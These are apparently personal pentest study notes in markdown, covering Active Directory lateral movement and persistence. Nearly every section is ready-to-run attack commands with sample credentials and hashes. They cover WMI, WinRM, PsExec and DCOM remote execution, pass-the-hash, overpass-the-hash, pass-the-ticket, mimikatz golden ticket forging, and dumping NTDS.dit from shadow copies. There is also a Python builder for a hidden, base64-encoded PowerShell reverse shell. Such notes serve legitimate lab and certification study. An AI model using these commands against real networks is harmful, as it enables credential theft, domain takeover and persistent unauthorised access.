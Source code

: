 # AD Lateral Movement Techniques
- all mimikatz run this : ``` privilege::debug ``` to do sussy thing
- spawn cmd inside mimikatz : ``` misc::cmd ```
- Some Ticket may req admin right to access (read)
## WMI 
- Remote Procedure Calls (port 135)
- Req target host credential & that user admininistrator local group in target
- deprecated in realworld
- not restricted by UAC remote restriction for non-domain joined machines 
- Works in cmd & pwsh
### Cmd 
- Dont have direct output 
- Launch calculator remotely  ``` wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc" ```
### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Prep Cim Session
   ```
        $options = New-CimSessionOption -Protocol DCOM
        $session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options // modify ip to new victim ip
        $command = 'calc';  // modify this to any rev shell or command
    ```
3. Prep Powershell Base64 Rev Shell
   ``` 
        import sys
        import base64

        payload = {reference https://www.revshells.com/ PowerShell #2 starting from "client....}

        cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

        print(cmd)
    ```
4. Run CIM
    ``` 
        Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
    ``` 

## WinRM
- WS-Management Protocol (xml messages w/ http&https)
- port 5986
- Req Administrators or Remote Management Users Group on target host
### Cmd
- Have output
- ``` winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami" ``` 

### Powershell
1. Prep credential object
    ``` 
        $username = 'jen'; // modify this
        $password = 'Nexus123!'; // modify this
        $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
        $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    ```
2. Start session 
   ``` 
    New-PSSession -ComputerName {Target IP} -Credential $credential
    Enter-PSSession 1 // no need nc
   ```

## PsExec
- Require ADMIN$ share in SMB
- Require that user is admin local group of that machine
- Require file & printer sharing turned on
1. Exec ``` ./PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd ```

## Pass the hash
- With NTLM authN services only | Kerberos authN NOT WORK!!
- Abuse SMB again
- Run in kali ``` /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@{Target ip} ```

## Overpass the hash
- Passing NTLM generated ticket (TGT) for Kerberos service | Not for NTLM services!!!
1. Run as different user for any exe e.g. notepad (shift right click)
2. Get NTLM ``` mimi> sekurlsa::logonpasswords ``` 
3. Spawn shell of that user``` sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell ```
4. Turn NTLM to Kerberos ticket by generating when access netw share ``` net use \\files04 ```
5. Check the ticket ``` klist ```
6. Spawn shell in victim ``` .\PsExec.exe \\files04 cmd ```

## Pass the ticket
- Passing NTLM ticket to get TGS for Kerberos service | Not for NTLM services!!! 
- More flexibility (TGS > TGT)
1. Export all TGT/TGS from memory ``` mimi> sekurlsa::tickets /export ```
2. Find all ticket and select the one we want ``` pwsh> dir *.kirbi ``` (remember same directory as mimikatz.exe) 
   - our target have record in Group 2 - T... G... S...
   - e.g. ```[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi ``` means dave = the user we want to impersnate and web04 is domain name
3. Inject to klist ``` kerberos::ptt {that kirbi file}```
4. Run as admin shell & access the service

## DCOM
- Distributed Component Object Model & abusing Microsoft Management Console COM app
- Old tech
- Port 135 RPC
- Req local admin
1. Prepare DCOM obj``` $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.177.72")) ```
2. Execute ``` $dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"{commands e.g. rev shell}","7") ``` (can edit to other shell)

# AD Persistence
## Golden Ticket
- https://www.hackingarticles.in/mimikatz-for-pentester-kerberos/ 
- Create self-made custom TGT
- Create a TGT stating that a non-privileged user is a member of the Domain Admins group
-  krbtgt account password is not automatically changed
-  Require krbtgt password (NTLM hashed)
1. dump the list if have kerberos pwd ``` lsadump::lsa /patch ``` Get domain id here (S-1-5-xxxxx) & NTLM hash of krbtgt
2. remove all existing tickets ``` kerberos::purge ``` 
3. Gen golden ticket ``` kerberos::golden /user:jen /domain:corp.com /sid:{domain} /krbtgt:{krbtgt ntlm hash} /ptt ```
4. Run psexec to lateral movement ``` ./PsExec.exe \\dc1 cmd.exe ```


## Shadow Copies
- Abusing Microsoft backup tech: Volume Shadow Service (Which backup AD database)
- Req Admin in Domain controller
- Start in Domain Controller (with CMD):
  1. Query all shadow copies ``` vshadow.exe -nw -p  C: ``` (Get the shadow copy device name for step 2)
  2. Copy the ntds.dit to DC directory``` copy {shadow copy device name}\windows\ntds\ntds.dit c:\ntds.dit.bak ```
  3. Save to system hive ``` reg.exe save hklm\system c:\system.bak ```
  4. Copy the 2 files to kali (ntds.dit.bak & system.bak)
  5. Use Kali : ``` impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL ``` 
  6. (Optional) Can use pass the hash to get shell 


# How distinguish NLTM vs Kerberos service?
1. Use tools like Mimikatz to dump the cached credentials and look for Kerberos tickets.
2. Check the type of tickets being used when accessing a service. For example, if you see TGTs (Ticket Granting Tickets) or TGSs (Ticket Granting Services), it indicates Kerberos authentication.
3. if you have NTLM hashes and are accessing services using NTLM authentication, it's likely that NTLM is being used.

## Same machine lateral movement with Domain Controller
1. Get SPN list
2. Get ticket of the service account / user that you want to move to
   ```
    Add-Type -AssemblyName System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '{SPN}'
    ```
3. Kerberoast 

# NTLM 
## Generator
- If u already have the password but u need to pash NTLM hash ->
- https://codebeautify.org/ntlm-hash-generator